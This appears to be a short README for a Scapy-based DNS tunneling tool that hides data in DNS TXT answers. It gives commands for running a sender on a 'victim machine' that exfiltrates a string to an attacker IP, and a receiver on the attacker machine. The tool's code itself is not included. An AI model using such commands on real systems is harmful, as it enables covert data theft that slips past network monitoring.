 # DNS Tunneling is Fun

Basically speaking, lets say you wanted to exfiltrate some data... why not do it with a TXT field in the answer for a DNS packet

#### Dependancies

1. Scapy

#### Usage

On the Victim Machine

```
sudo python3 dns_tunnel_sender.py -d "Exfiltrate me" -c 5 -s lrl.com -a 192.168.10.5
```

-a is the destination IP

On the attacker machine

```
sudo python3 dns_tunnel_receiver.py
```

 
